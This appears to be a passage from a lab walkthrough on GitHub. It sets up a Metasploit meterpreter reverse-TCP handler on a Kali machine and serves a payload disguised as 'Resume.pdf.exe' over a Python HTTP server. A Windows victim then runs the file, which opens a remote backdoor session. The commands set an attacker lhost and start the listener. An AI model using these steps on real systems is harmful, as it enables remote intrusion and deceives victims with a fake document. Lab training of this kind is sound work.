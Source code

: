 9. Change the payload to the payload we have used in our malware and run options command:

          set payload windows/x64/meterpreter_reverse_tcp
          options
      <img width="842" height="394" alt="image" src="https://github.com/user-attachments/assets/0548dd19-ef75-4bca-acaa-2cc3a37f3c49" />

10. Set lhost to the IP of attacker machine

          set lhost 192.168.20.12
       <img width="863" height="400" alt="image" src="https://github.com/user-attachments/assets/cd4b0bb7-7e79-429b-8578-211fbce2ff68" />

11. Now lets start the handler so it will be listening for the malware connection:

          exploit
       <img width="809" height="71" alt="image" src="https://github.com/user-attachments/assets/f0b724d5-8294-44ad-bb0f-6c9995518d60" />

12. Now to send the payload to our target machine, we will be setting up a http server on our Kali machine that will host the directory on a port for the target machine to download the file from:
    Open a new terminal tab:
    
       <img width="860" height="287" alt="image" src="https://github.com/user-attachments/assets/b1c06e33-0eed-43db-b8c4-c6176296e455" />

13. Turn on the http server using python on port 9999

           python -m http.server 9999
       <img width="638" height="279" alt="image" src="https://github.com/user-attachments/assets/b34470dd-c7ae-412c-b56a-bc8ce3bf96ec" />

14. Move to the Windows machine and open a web browser and enter the IP and port of the kali machine to access the server:

       <img width="1565" height="438" alt="image" src="https://github.com/user-attachments/assets/3ce62295-963a-482a-8811-f3dbc6bd9b29" />

15. Click on the **"Resume.pdf.exe"** to download it. once its downloaded, run it. Select **"Run"**:

       <img width="531" height="498" alt="image" src="https://github.com/user-attachments/assets/38a9e321-a388-4a37-bdf0-ce1fb18758e2" />


16. To see if a connection has been established, run this command on the windows, scroll down and you will see an established connection:

          netstat -anob
       <img width="841" height="699" alt="image" src="https://github.com/user-attachments/assets/9896c0e9-21b3-47eb-a8ee-5caae03d5ae1" />

17. Back to the Kali machine, on the metasploit console you can see that the backdoor is successful:


       <img width="882" height="145" alt="image" src="https://github.com/user-attachments/assets/8efda176-e9a9-4a33-b7db-e8034bc4a0ad" />

19. Run this command to see what the exploit has to offer:

          help
       <img width="772" height="711" alt="image" src="https://github.com/user-attachments/assets/f690ecb9-446c-4adf-9009-979d18777d1a" />
